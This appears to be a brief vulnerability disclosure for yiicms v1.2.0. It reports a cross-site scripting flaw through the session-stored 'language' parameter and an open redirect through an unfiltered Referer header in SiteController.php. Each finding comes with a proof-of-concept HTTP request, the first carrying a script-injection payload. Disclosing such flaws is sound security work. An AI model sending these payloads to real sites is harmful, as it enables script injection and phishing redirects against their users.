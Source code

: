 yiicms v1.2.0 (latest version)



#### 1.Reflective xss

At `controllers/SiteController.php:57`, param `language` was saved to session. When user browse the main page, the value of `language of session` will display.

poc：

```http
GET /site/language.html?language=123123'"><script>alert(/pwn/)</script> HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: xx
Upgrade-Insecure-Requests: 1


```

Browser main page.

![image-20201119160851047](yiicms.assets/image-20201119160851047.png)

![image-20201119161617378](yiicms.assets/image-20201119161617378.png)



#### 2.Arbitray location redirection

At `controllers/SiteController.php:59`, `referer` was used to redirect without any filter.

poc:

```http
GET /site/language.html?language= HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Referer: http://google.com


```

![image-20201119161035473](yiicms.assets/image-20201119161035473.png)











